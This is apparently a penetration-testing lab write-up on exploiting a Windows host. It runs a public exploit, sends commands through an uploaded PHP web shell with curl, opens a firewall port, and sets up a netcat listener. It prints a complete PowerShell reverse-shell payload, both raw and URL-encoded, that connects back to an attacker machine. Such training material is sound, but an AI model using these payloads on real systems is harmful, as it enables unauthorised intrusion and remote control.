






# Exploitation

Now that we have our exploit modified in the way we need, it is ready to launch against our target

We can launch our exploit by doing **./43777.py** and it works, giving us access to NT AUTHORITY\SYSTEM which is the highest possible local account on a Windows target



Now that we have remote code execution on the target machine, we can use curl to run commands on the system. Using the following command will do this: **curl -X POST http://10.200.196.150/web/exploit-gnome787.php -d "a=COMMAND"**



Now we want to generate a reverse shell that we can use to further enumerate the system and gain further access to the network. Using our exploit we can try and send a ping request back to our attacking machine, however, when we do this we can't seem to capture the request which means we are going to have to try something else to be able to capture our reverse shell

Given that we already have a machine that can recieve ping requests (**10.200.196.200**) we could send a reverse shell back to this machine. This will require a static binary of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat) which we can upload via our ssh connection



Note: We will also need to open up the port in the firewall. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". This firewall is very restrictive by default and only allows access to SSH and anything else the sysadmin has specified. To open our desired port we can run the following command: **firewall-cmd --zone=public --add-port 44444/tcp**. The command uses two different switches. One being the **--zone** which we set to public meaning the rule will apply to all inbound connections to this port. Next we use the **--add-port** switch and set it to our desired port, in our case this will be **44444**, and we specify that it will the TCP protocol we will be opening this port with



Now that we have our listener and our listener port open, we can use the following payload that uses powershell to create a reverse shell: 

```powershell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.196.200',44444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

I am going to use curl to generate the reverse shell but before I can do this I must encode the reverse shell code. This can be done with the an online tool such as [urlencoder](https://www.urlencoder.org/) and then add that encoded payload to our curl command that makes use of that exploit we uploaded earlier. Our encoded payload looks like:

```powershell
powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.196.200%27%2C44444%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

We send our payload using our curl exploit: **curl -X POST http://10.200.196.150/web/exploit-gnome787.php -d "a=PAYLOADHERE"**



And now we have a reverse shell to **10.200.196.150** on our **.200** host:




